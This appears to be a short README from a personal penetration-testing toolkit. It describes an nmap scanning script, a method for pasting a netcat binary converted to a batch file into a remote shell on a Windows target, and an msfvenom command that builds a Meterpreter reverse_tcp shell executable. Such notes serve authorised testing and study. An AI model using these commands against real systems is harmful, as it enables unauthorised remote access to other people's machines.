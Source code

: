 # t0w3ntum

### Files

###### nmap.sh - Does a full fast port scan and then individual intense scans on each port

###### tools/nc.txt

Useful if you have no other way of copying netcat over to a target windows
host. To use, copy the contents of nc.txt and paste it into the remote shell. 
I use xclip like so. 

	cat nc.txt | xclip -selection clipboard

The file was created with the following method. 

	upx nc.exe
	wine exe2bat.exe nc.exe nc.txt

### Commands

###### Generate a meterpreter reverse_tcp shell. 

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
